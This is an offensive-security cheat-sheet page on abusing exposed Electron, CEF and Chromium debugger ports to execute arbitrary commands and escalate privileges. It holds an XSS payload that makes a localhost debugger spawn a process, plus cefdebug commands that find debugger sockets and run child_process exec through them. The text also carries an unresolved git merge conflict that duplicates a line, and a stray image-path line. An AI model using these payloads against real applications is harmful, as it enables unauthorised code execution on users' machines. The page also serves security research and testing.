# electron/CEF/chromium debugger abuse

If you find any process with **electron, cef or chromium debugger running** and listening to a port you should try to make the **debugger execute arbitrary commands**.\
Abusing this behaviour you **could be able to escalate privileges**.

The abuse of this vulnerability remotely could be as easy as injecting via XSS this line of JS:

```markup
<img src="http://localhost:40000/json/new/?javascript:require('child_process').spawnSync('calc.exe')">
```

<<<<<<< HEAD
But obviously the exploitation will be **much easier locally**, as you can use a tool such as: [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug)****
=======
But obviously the exploitation will be **much easier locally**, as you can use a tool such as: [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug)
>>>>>>> master

```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```

List of resources to pwn electorn apps: [https://github.com/doyensec/awesome-electronjs-hacking](https://github.com/doyensec/awesome-electronjs-hacking)

## References

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
